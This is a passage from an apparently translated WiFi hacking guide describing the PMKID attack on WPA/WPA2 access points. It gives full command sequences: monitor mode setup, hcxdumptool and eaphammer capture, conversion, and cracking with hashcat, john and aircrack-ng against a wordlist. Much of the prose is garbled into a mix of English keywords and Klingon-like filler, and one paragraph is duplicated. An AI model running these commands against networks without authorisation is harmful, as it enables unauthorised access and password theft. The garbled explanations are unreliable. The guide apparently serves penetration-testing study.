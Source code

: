 ### PMKID

**2018** **hashcat** [**revealed**](https://hashcat.net/forum/thread-7717.html) **attack method** **new**, **unique** **one single packet** **require** **clients** **connected** **target AP**—**interaction** **attacker** **AP**.

**modern routers** **optional field** **first EAPOL** **frame** **association** **add**, `Robust Security Network` **known** `PMKID`.

**original post** **PMKID** **created** **known data**:
```bash
PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)
```
**PMK Name** jatlh, **BSSID** vItlhutlh, **AP** 'ej **station** Duj, 'ej **PMK** cha'logh 4-way handshake vItlhutlh, **hashcat** vItlhutlh vaj **PSK** 'ej **passphrase** qar recover!

**gather** vItlhutlh 'ej **bruteforce** locally password vItlhutlh:
```bash
airmon-ng check kill
airmon-ng start wlan0
git clone https://github.com/ZerBea/hcxdumptool.git; cd hcxdumptool; make; make install
hcxdumptool -o /tmp/attack.pcap -i wlan0mon --enable_status=1
```

```bash
#You can also obtains PMKIDs using eaphammer
./eaphammer --pmkid --interface wlan0 --channel 11 --bssid 70:4C:A5:F8:9A:C1
```
**PMKIDs captured** will be shown in the **console** and also **saved** inside \_ **/tmp/attack.pcap**\_\
Now, convert the capture to **hashcat/john** format and crack it:

**PMKIDs captured** will be shown in the **console** and also **saved** inside \_ **/tmp/attack.pcap**\_\
Now, convert the capture to **hashcat/john** format and crack it:
```bash
hcxtools/hcxpcaptool -z hashes.txt /tmp/attack.pcapng
hashcat -m 16800 --force hashes.txt /usr/share/wordlists/rockyou.txt
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
**Qawlu'wI'**:
QaD jatlhpu' **4 qutlh**, vaj: `4017733ca8db33a1479196c2415173beb808d7b83cfaa4a6a9a5aae7566f6461666f6e65436f6e6e6563743034383131343838` DaH jatlhpu' **3 qutlh**, vaj, **valid** jatlhpu' **ghobe'** (PMKID capture valid jatlhpu'be'). 

`hcxdumptool` **handshakes** **ghobe'** (vaj **'e' vItlhutlh**): **`MP:M1M2 RC:63258 EAPOLTIME:17091`**. **handshakes** **hashcat**/**john** format **ghItlh** `cap2hccapx` jatlhpu'.
```bash
tcpdump -r /tmp/attack.pcapng -w /tmp/att.pcap
cap2hccapx pmkid.pcapng pmkid.hccapx ["Filter_ESSID"]
hccap2john pmkid.hccapx > handshake.john
john handshake.john --wordlist=/usr/share/wordlists/rockyou.txt
aircrack-ng /tmp/att.pcap -w /usr/share/wordlists/rockyou.txt #Sometimes
```